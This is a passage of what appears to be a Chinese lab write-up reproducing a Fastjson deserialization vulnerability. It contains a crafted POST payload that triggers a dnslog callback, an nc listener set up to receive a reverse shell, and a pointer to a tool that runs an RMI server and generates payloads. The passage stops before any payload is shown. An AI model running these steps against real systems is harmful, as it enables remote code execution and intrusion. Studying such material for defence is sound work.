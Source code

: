 ##### 改POST

```python
POST / HTTP/1.1
Host: 192.168.70.14:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyNjY1ODAzMnxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fDOy-oDYUAgD_tkEFS7sngh5VEKhWsYxRJM3ltlst2hS; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzI3MTU5NjYyLCJlbWFpbCI6IiJ9.YRFGYOhPRNvg7D2xfYYPPCn-u1CeuaknKtRmoJimSH4
Connection: keep-alive
Content-Length: 68

{"a":{"@type":"java.net.Inet6Address","val":"fantasycat.dnslog.pw"}}
```

![image-20240923164734854](https://image.201068.xyz/assets/36.漏洞复现/image-20240923164734854.png)

##### dnslog结果

![image-20240923164859662](https://image.201068.xyz/assets/36.漏洞复现/image-20240923164859662.png)

## 4.nc监听

攻击机kali（192.168.70.4） 开始nc监听7777端口

```python
nc -lvvp 7777
```

![image-20240923164402478](https://image.201068.xyz/assets/36.漏洞复现/image-20240923164402478.png)

## 5.开启rmi服务器

### fastjson_tool

github：https://github.com/Serendipity-Lucky/fastjson_tool

下载链接：https://github.com/Serendipity-Lucky/fastjson_tool/raw/refs/heads/master/fastjson_tool.jar

### 构造

利用`fastjson_tool.jar`在攻击机上开启`rmi`服务器 

执行命令之后 生成可用payload
